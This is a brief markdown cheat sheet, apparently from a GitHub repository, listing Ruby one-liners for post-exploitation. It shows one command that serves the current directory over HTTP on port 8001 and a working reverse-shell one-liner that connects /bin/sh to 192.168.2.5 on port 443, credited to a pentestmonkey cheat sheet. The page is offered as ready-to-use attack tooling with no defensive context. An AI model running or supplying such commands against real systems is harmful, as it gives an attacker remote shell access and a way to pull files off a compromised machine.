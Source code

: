 # Ruby Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files from current directory on port 8001**

```ruby -run -e httpd -- -p 8001 .```

**Reverse /bin/sh shell on port 443 from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**

```ruby -rsocket -e'f=TCPSocket.open("192.168.2.5",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```
